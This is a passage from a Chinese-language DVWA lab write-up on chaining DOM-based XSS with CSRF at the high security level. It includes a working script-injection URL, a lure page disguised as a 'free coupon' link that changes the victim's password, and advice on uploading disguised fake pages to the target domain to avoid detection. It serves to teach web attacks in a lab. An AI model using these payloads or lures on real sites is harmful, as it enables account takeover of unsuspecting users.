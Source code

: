 ```
http://dvwa.localtest/vulnerabilities/xss_d/?default=English%3Cscript%20type=%22module%22%20src=%22http://127.0.0.1:8080/csrf.js%22%3Econsole.log(%27hi%27)%3C/script%3E&default=English#
```

惡意連結頁面

`get-img-redirect-high.html`

```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <title>csrf - get-img-redirect-high</title>
</head>
<body>
set password to: 4444

<a href="http://dvwa.localtest/vulnerabilities/xss_d/?default=English<script src='http://127.0.0.1:8080/csrf.js'>console.log('hi')</script>&default=English#">
  get your free coupon
</a>

<script>
  console.log(`your cookie is: ${document.cookie}`)
</script>
</body>
</html>
```

成功將密碼改成 4444
![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/2d1464d2-43b5-44f4-ae65-bcd7b1802904/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220226%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220226T070324Z&X-Amz-Expires=86400&X-Amz-Signature=b9b0b70402bf1ef65f33337224daa51503e0a90070708e20387f9856196ad1d6&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)


![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/2d1464d2-43b5-44f4-ae65-bcd7b1802904/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220226%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220226T070324Z&X-Amz-Expires=86400&X-Amz-Signature=b9b0b70402bf1ef65f33337224daa51503e0a90070708e20387f9856196ad1d6&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)

但如果想要更隱密的方式，不讓受害者察覺的話，可能就要嘗試其他方法，因為跳轉的方式很明顯會讓人起疑心．

### CSRF + File upload + fake page

### 將惡意檔案上傳到目標網站

如果你是在聊天直接丟惡意連結給受害者讓他點擊，上面的方法就可以直接拿來用，但如果你想要做到更細緻一點的做法，就要避免用跳轉的方式攻擊，改用 xhr 的方式送出惡意 request，不過似乎沒那麼容易，尤其在現代瀏覽器預設安全政策或設定較嚴謹的情況下．

例如:
1. 瀏覽器阻擋跨站台 cookie 追蹤 (Cookie Tracking Protection)
2. SOP & CORS

因此最保險的方式就是將 CSRF 惡意連結或惡意頁面放在跟目標網站 (DVWA) 一樣的域名底下 (雖然樣就不再是原始的 CSRF 了，從 Cross Site 變成 Same Site ? )，這部分有很多變化，例如將原本的頁面地換成惡意頁面, 透過 Stored XSS 埋惡意連結, overlay 等等...

比較快速的方式就是跟 [這篇 writeup](https://systemweakness.com/hackerman-sergio-csrf-tutorial-dvwa-high-security-level-4cba47f2d695) 所寫的一樣，直接上傳頁面 (可以偽裝成活動或送貼圖的頁面之類的)
